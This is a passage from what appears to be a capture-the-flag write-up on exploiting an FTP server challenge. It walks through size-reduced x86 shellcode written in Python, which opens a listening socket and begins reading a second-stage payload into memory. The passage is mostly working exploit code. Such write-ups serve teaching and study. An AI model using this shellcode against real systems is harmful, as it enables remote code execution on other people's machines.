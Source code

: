 We have control, and now we need to squeeze in our shellcode.

## Shellcode Golf

This time around I'm not going to go through things step by step like I did last time. Instead I'm going to keep it brief and highlight the key changes. Bear in mind that I wanted the shellcode to behave the same as the XP version in that it'd create a new socket to listen on and read the payload into memory. In order to do this I needed to save a number of bytes to get it to fit because the existing payload was too big.

### Saving 1 - JMP removal

First of all, I didn't have to deal with jumps like in the XP version so I could rejig the payload to be generated in order without those jmp shenanigans taking up valuable space. The first version looked like this:

``` python
shellcode  = ""
# Adjust the stack to prevent it from breaking things in our shellcode
shellcode += "\x83\xEC\x7C"                       # SUB ESP, 0x7C
# Get the address of `socket` into EBX
shellcode += "\xBB\x44\x34\x34\x40"               # MOV EBX,<offsetted address>
shellcode += "\xC1\xEB\x08"                       # SHR EBX, 0x8
# set up the stack for the call to `socket`
shellcode += "\xB0\x06"                           # MOV AL, 0x6
shellcode += "\x50"                               # PUSH EAX
shellcode += "\xB0\x01"                           # MOV AL, 0x1
shellcode += "\x50"                               # PUSH EAX
shellcode += "\x40"                               # INC EAX
shellcode += "\x50"                               # PUSH EAX
# invoke the call to `socket`
shellcode += "\xFF\xD3"                           # CALL EBX
# save our socket handle
shellcode += "\x89\xC7"                           # MOV EDI, EAX
# Find sockaddr
shellcode += "\x89\xD9"                           # MOV ECX, EBX
shellcode += "\xB5\x74"                           # MOV CH, 0x74
# adjust the port number by bumping it up one to 22
shellcode += "\xFE\x41\x03"                       # INC BYTE [ECX+3]
# adjust the call pointer to reference `bind`
shellcode += "\xB3\x54"                           # MOV BL, 0x54
# prepare the parameters on the stack for the `bind` call
shellcode += "\x6A\x10"                           # PUSH 0x10
shellcode += "\x51"                               # PUSH ECX
shellcode += "\x50"                               # PUSH EAX
# invoke the call to `bind`
shellcode += "\xFF\xD3"                           # CALL EBX
# adjust the call pointer to reference `listen`
shellcode += "\xB3\x5C"                           # MOV BL, 0x5C
# prepare the parameters on the stack for the `listen` call
shellcode += "\x6A\x7F"                           # PUSH 0x7F
shellcode += "\x57"                               # PUSH EDI
# invoke the call to `listen`
shellcode += "\xFF\xD3"                           # CALL EBX
# adjust the call pointer to reference `accept`
shellcode += "\xB3\x24"                           # MOV BL, 0x24
# prepare the parameters on the stack for the `accept` call
shellcode += "\x57"                               # PUSH EDI
# invoke the call to `accept`
shellcode += "\xFF\xD3"                           # CALL EBX
# prepare for the malloc call and call it
shellcode += "\x8B\xF8"                           # MOV EDI, EAX
shellcode += "\x66\xBB\xD4\x3D"                   # MOV BX, 0x3DD4
shellcode += "\x8A\xE0"                           # MOV AH, AL
```

  [previous post]: /posts/idsecconf-2013-myftpd-challenge/
  [SEH overwrites]: https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/
  [ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
